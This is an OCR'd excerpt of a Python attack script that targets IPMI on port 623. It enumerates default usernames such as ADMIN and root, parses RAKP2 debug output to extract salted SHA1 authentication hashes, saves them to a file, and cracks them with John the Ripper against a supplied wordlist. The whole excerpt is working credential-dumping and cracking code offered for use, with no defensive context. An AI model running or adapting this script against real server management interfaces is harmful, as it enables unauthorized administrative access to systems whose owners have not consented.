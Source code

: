 ```python
    
        if 'illegal parameter' in stderr or 'unauthorized name' in stderr:
            print(f"{red}[!] Wrong username {magenta}{u} {red}***")
            i+=1
            pass
        else:
            print(f"\n{yellow}[+] The username {magenta}{u} {yellow}is {green}valid{yellow}...")
            time.sleep(2)
            break
        
        if 'insuficient resources for session' in stderr: 
            print(f"\n{red}[!] Insuficient resources for session! ***"); sys.exit()
   
    user = user[i]
    # extract data to salt
    data = re.findall(r"rakp2 mac input buffer \(.*\)\s+(?: .*?\n)+\>\> rakp2 mac key", stderr)[0]
    data = re.sub(f"rakp2 mac input buffer \(.*\)\n", "", data).replace("\n>> rakp2 mac key", "").replace("\n", "").split(" ")
    salt = ''.join(data)

    # extract hash
    user_hash = re.findall(r"Key exchange auth code \[sha1\] : (.*?)\n?$", stdout)[0].replace("0x", "")
    final_hash = f"$rakp${salt}${user_hash}"
    
    print(f"\n{yellow}[+] The hash for user {magenta}{user}: {green}{final_hash}")
    # load hash
    hash_file = 'hash'
    with open(hash_file, "w") as f:
        f.write(f"{target} {user}:{final_hash}")
        f.close
    return hash_file

# cracking hash with jhon
def cracking(wordlist, hash_file):
    time.sleep(2)
    print(f"\n{yellow}[+] Cracking hash with {magenta}John {yellow}tool...")
    time.sleep(2)
    subprocess.run(shlex.split(f"john --wordlist={wordlist} \"{hash_file}\""))

def run():
    if os.getuid() != 0:
        print("\n[*]{yellow} You must be {red}root {yellow}to run the script!")
        sys.exit() 
    # asign variables
    target = sys.argv[1]
    port = 623
    user = ["ADMIN", "admin", "Administrator", "root", "USERID", "guest", "Admin"]
    wordlist = sys.argv[2]

    checkConnection(target, str(port))
    checkParameters(target, port, user, wordlist)
    
    if user:
        hash_file = getUserHash(target, port, user)
        cracking(wordlist, hash_file)

# main
if __name__ == '__main__':
    run()
```
